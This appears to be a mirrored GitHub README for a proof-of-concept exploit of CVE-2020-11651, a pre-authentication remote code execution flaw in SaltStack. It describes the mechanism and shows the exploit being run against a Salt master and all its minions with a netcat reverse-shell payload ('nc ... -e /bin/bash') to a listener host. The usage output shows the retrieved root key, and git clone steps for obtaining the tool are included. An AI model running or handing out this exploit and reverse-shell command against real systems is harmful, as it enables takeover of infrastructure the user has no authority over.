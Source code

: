 # cve-2020-11651

null

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/dozernz](https://github.com/dozernz) |
| Url      | [https://github.com/dozernz/cve-2020-11651](https://github.com/dozernz/cve-2020-11651)                                               |
| Stars    | 102                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2020-11651

This is a POC for CVE-2020-11651, which obtains pre-auth RCE on a salt stack master, and/or all the associated minions. Some light details on the issue [are here](https://labs.f-secure.com/advisories/saltstack-authorization-bypass). POC for 2020-11652 not included. 

This obtains command execution on the master by creating a runner of salt.cmd with function cmd.exec_code. There's no interactivity implemented, youll need to catch a reverse shell. 

## Usage

Tested on Debian10 against a Debian10 instance. Needs ncat to receive and send a shell, and `pip3 install salt` library for transport.

```
user@debian10:~$ ./cve-2020-11651.py 192.168.200.135 master 'nc 192.168.200.137 4444 -e "/bin/bash"'
/usr/local/lib/python3.7/dist-packages/salt/ext/tornado/httputil.py:107: DeprecationWarning: Using or importing the ABCs from 'collections' instead of from 'collections.abc' is deprecated, and in 3.8 it will stop working
  class HTTPHeaders(collections.MutableMapping):
Attempting to ping master at 192.168.200.135
Retrieved root key: ajazew2a7V7gaxT2e5Vyi1pALtWYLOCp3L+A3xYc1iilwZEPhbnERhhGvzrDh8NVa2x0xNvYIJE=
Got response for attempting master shell: {'tag': 'salt/run/20200504080050593352', 'jid': '20200504080050593352'}. Looks promising!

user@debian10:~$ ./cve-2020-11651.py 192.168.200.135 minions 'nc 192.168.200.137 4444 -e "/bin/bash"'
/usr/local/lib/python3.7/dist-packages/salt/ext/tornado/httputil.py:107: DeprecationWarning: Using or importing the ABCs from 'collections' instead of from 'collections.abc' is deprecated, and in 3.8 it will stop working
  class HTTPHeaders(collections.MutableMapping):
Attempting to ping master at 192.168.200.135
Retrieved root key: ajazew2a7V7gaxT2e5Vyi1pALtWYLOCp3L+A3xYc1iilwZEPhbnERhhGvzrDh8NVa2x0xNvYIJE=
Sending command to all minions on master

user@debian10:~$ ./cve-2020-11651.py 192.168.200.135 fetchkeyonly
/usr/local/lib/python3.7/dist-packages/salt/ext/tornado/httputil.py:107: DeprecationWarning: Using or importing the ABCs from 'collections' instead of from 'collections.abc' is deprecated, and in 3.8 it will stop working
  class HTTPHeaders(collections.MutableMapping):
Attempting to ping master at 192.168.200.135
Retrieved root key: ajazew2a7V7gaxT2e5Vyi1pALtWYLOCp3L+A3xYc1iilwZEPhbnERhhGvzrDh8NVa2x0xNvYIJE=
user@debian10:~$ 

```

![saltstack](https://raw.githubusercontent.com/dozernz/cve-2020-11651/master/saltstack.PNG)



## Get the content

```
git clone https://github.com/dozernz/cve-2020-11651
cd cve-2020-11651
```

{% embed url="https://github.com/dozernz/cve-2020-11651" %}

<figure><img src="https://avatars.githubusercontent.com/u/6723850?v=4" alt=""><figcaption><p>dozernz</p></figcaption></figure>
